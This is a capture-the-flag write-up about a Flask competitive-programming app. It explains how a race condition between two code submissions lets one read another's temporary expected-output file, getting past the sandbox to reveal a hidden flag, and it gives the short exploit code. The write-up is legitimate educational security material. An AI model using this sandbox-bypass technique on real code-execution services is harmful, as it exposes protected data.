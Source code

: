## Challenge Overview: Flask-Based Competitive Programming Web Application
In this challenge, we're presented with a Flask-based Competitive Programming web application, and we're provided with the application's code and an SQLite database. The main objective is to extract a hidden flag that is stored as the expected output of a test case for a specific problem.

## Code Analysis and Database Schema
The application consists of three main files:

app.py: The main Flask application handling submissions and evaluation.
db.py: Handles the database connections and inserts the flag into the database.
sandbox.py: Contains the sandboxing code that limits the actions a submission can perform.
From db.py, we observe that the flag is stored as the output for a hidden test case associated with the problem helloinput:

```python
Copy code
with Session(engine) as db:
    flag = os.environ.get("FLAG")
    if flag:
        flag_case = db.scalar(select(ProblemTestCase).filter_by(problem_id="helloinput", hidden=True))
        flag_case.output = flag + "\n"
        db.commit()
```
The test cases for each problem are stored in the problem_test_cases table in db.sqlite. The table schema is as follows:

```sql
CREATE TABLE IF NOT EXISTS "problem_test_cases" (
    "id" INTEGER NOT NULL,
    "problem_id" VARCHAR,
    "input" VARCHAR,
    "output" VARCHAR,
    "hidden" INTEGER,
    FOREIGN KEY("problem_id") REFERENCES "problems"("id"),
    PRIMARY KEY("id")
);
```
Our target is to retrieve the output of the hidden test case for helloinput, which contains the flag.

## Understanding the Submission Handling Process
In app.py, the submission handling logic involves:

Storing the submission in the submissions table.
Retrieving the test cases from the problem_test_cases table.
Writing the test case input and expected output to temporary files (/tmp/<submission_id>.in and /tmp/<submission_id>.expected).
Executing the submitted code in a sandboxed environment.
Comparing the actual output with the expected output using the diff command.
Sandbox Bypassing via Race Condition
The sandboxing code in sandbox.py restricts operations such as opening files in write mode and reading the .expected file associated with the current submission ID. However, the .expected file is temporarily created during the submission process, providing a window of opportunity to read it before it gets deleted.

## Exploiting the Race Condition
To exploit this, we can use a race condition between two submissions:

Submission A: A dummy submission that prints the expected output for the first test case and enters an infinite loop for the second test case. This delay prevents the .expected file from being deleted immediately.

### Code for Submission A:

```python
if input() == "Welcome to Crator":
    print("Welcome to Crator")
else:
    while True:
        pass
```
Submission B: A submission that repeatedly attempts to read the .expected file created by Submission A.

### Code for Submission B:

```python
print(open("/tmp/1.expected").read())
```
## Execution Flow
- Start Submission A, which will hang during the second test case, keeping the /tmp/<submission_id>.expected file intact.
- While Submission A is still running, submit Submission B, which tries to read the .expected file created by Submission A.
